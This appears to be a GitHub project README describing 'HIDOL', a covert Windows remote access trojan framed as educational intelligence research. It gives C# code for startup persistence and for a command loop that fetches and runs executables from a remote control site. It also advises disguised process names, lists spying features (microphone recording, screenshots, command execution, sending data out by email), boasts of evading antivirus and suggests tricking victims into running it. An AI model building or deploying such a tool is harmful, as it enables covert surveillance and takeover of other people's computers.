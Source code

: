 <img src="https://raw.githubusercontent.com/RobinHannanJanssen/HIDOL/main/LOGO.png">
<h3>The High Doses Of Lemon Project</h3>Experimental intelligence gathering from devices compromised with HIDOL
<br>

# Disclaimer
- I, the creator, am in no way responsible for any actions that you may make using this information. 
- You take full responsibility for any action taken using this information. 
- Please take note that this document was designed for educational purposes and should never be used maliciously. 

# Introduction
Cyber threats are one of the biggest threats faced by National Security today. According to the October 2020 report of the Homeland Threat Assessment by the Department of Homeland Security, **Cyberattacks** remain the number one threat. Taken from <a href="https://www.dhs.gov/sites/default/files/publications/2020_10_06_homeland-threat-assessment.pdf" target="_blank">dhs.gov</a>:
> Cyber threats to the Homeland from both nation-states and non-state actors will remain acute. U.S. critical infrastructure faces advanced threats of disruptive or destructive cyber-attacks. Federal, state, local, tribal and territorial governments, as well as the private sector, will experience an array of cyber-enabled threats designed to access sensitive information, steal money, and force ransom payments.

In order, to combat Cyberattacks against a nation or country, an organization should have the ability to distinguish, imitate and ace the methods of present cyberattacks. 
> This is where intelligence comes in.

# How it works
Several variables contribute to how HIDOL functions properly. A combination of covert communications while maintaining stealth is the key to how HIDOL functions. Take a look at the function diagram below:

<img src="https://raw.githubusercontent.com/RobinHannanJanssen/HIDOL/main/architecture.png">

Contrary to what you think, HIDOL is not one single program. Like i said before, several variables contribute such as **covert communications**; we shall use Python as the programming language for the control panel, as Python is extremely useful and much easier when working with scraping. 

We shall have the Target application created using C#. C# is one of the best options when targeting Windows only programs, but Java or something else might do. The app should be named something unsuspicious like **Runtime Dllhost** or **webUtc**. There will be a timer with an interval of seconds to visit the referrer site and check for the latest instruction. The target app will make sure it is set to *Run on startup* without administrative rights. This is possible to do so using a simple copy:
```csharp
static void AddToStartup() {
    try {
    	string exe_path = Application.ExecutablePath;
    	string startup_path = Environment.GetFolderPath(Environment.SpecialFolder.Startup) + "\\" + System.AppDomain.CurrentDomain.FriendlyName;

        System.IO.File.Copy(exe_path, startup_path);
    }
    catch { }
}
```

Having a domain or DNS hosted is a must, as both the control panel and the target application depends on having a referrer in which communications and information posts takes place.

A normal conversation between the control panel, the referrer and the target app would need an instruction. The control panel (a.k.a you) edits a webpage (of DNS or domain) string. For example, you want the target app to download a file and run it. The comparison between the pseudo instruction and the string that the program would understand is:
- Pseudo instruction: `Download file from https://example.com/example.exe`
- String displayed on DNS: `DOWNLOAD https://example.com/example.exe`

When the target app makes the next web request, it will undergo a function like this:
```csharp
//make instruction to site and set contents to string
string instruction = Request({{YOUR_SITE}});

if (instruction.Contains("DOWNLOAD")) {
    //extract instruction from site
    string[] splitted = instruction.Split(' ');
    string url = splitted[1].ToString();

    //acknowledge file as .exe
    string path = Application.StartupPath + "\\" + "program.exe";

    //download the program
    WebClient Client = new WebClient();
    Client.DownloadFile(new Uri(url), path);

    //run file
    System.Diagnostics.Process.Start(path);
}
```

Up to this point, the downloaded program runs and captures information such as OS information and local IP address. The program then posts that information back to the DNS on a separate page, where it logs the info. The control panel would then login to that DNS or domain to gather the information which was stored. But we may also use SMTP using Gmail to send the info to your email.

# Usage
We can get very creative and add functions which will guarantee (almost) full control over the target computer. Such as the following:
- Record the device microphone for a given amount of time
- Take a screenshot of the target's computer
- Download a file and run it (e.g: .mp3, .exe)
- Run a CMD command (we would be able to find local files this way)
- Display message to the target device
- Run the browser to a specific URL
- Stay stationary/Stop any previous instruction

There is no doubt that a program with these capabilities would raise the suspicion of **Antivirus softwares**. According to <a href="https://www.virustotal.com/gui/file/005f6a68736937d2ed265a2dbee7123a72f5a47abfd2db24349d6c636c7d2439/detection" target="_blank">virustotal.com</a>, the target app had a **4** out of **72** suspicion rate (which is not bad).

# Deployment
- Since we are using C# as the target app language, we must ensure that the target device has a .NET framework installed. We shall use framework version 3.5 as according to <a href="https://docs.microsoft.com/en-us/dotnet/framework/migration-guide/versions-and-dependencies#net-framework-35" target="_blank">docs.microsoft.com</a>, version 3.5 is already included in Windows 10, 8.1, 8 and 7. So we can be sure that the target device has already satisfied this requirement.
- To get HIDOL to work, we need a target device to compromise with. This means finding a target who uses the computer. And somehow finding a way to get the target to double-click on the target app. Otherwise, you may have physical access to the computer, you can do it yourself. All it takes is a double-click.
- From that moment you double-clicked, the target app will remain indefinitely. We may want to add an `Uninstall` function, in case the target user finds out.
- Finally, we will be able to conduct our experiment on the target device.

# Pros and Cons
### Pros
- An alternative to information gathering using port forward
- Does not require administrative rights
- Able to conduct functions as a normal user
- (Almost) free from antivirus software
- Access to files, drivers, etc
- Being able to conduct stealth

### Cons
- Tough installation
- Delayed instruction during timer interval
- Not real-time information
- Unable to conduct multiple tasks at once

# Conclusion
There are multiple ways of gathering intelligence, for government agencies, this would be a much easier task. The intelligence community seeks to reduce uncertainty and provide warning about potential threats to its National security. Per the example above, we have used a fixed environment as an operating system, and we were able to exploit that environment even with its limitations. By adding these methods to the existing capabilities of cybersecurity, we're not only bolstering our security operations effectiveness, but we are also greatly improving the safety and protection against these techniques, in the cyber world.

# Credits
- [Robin Hannan Janssen](https://github.com/robinhannanjanssen) - Lead designer
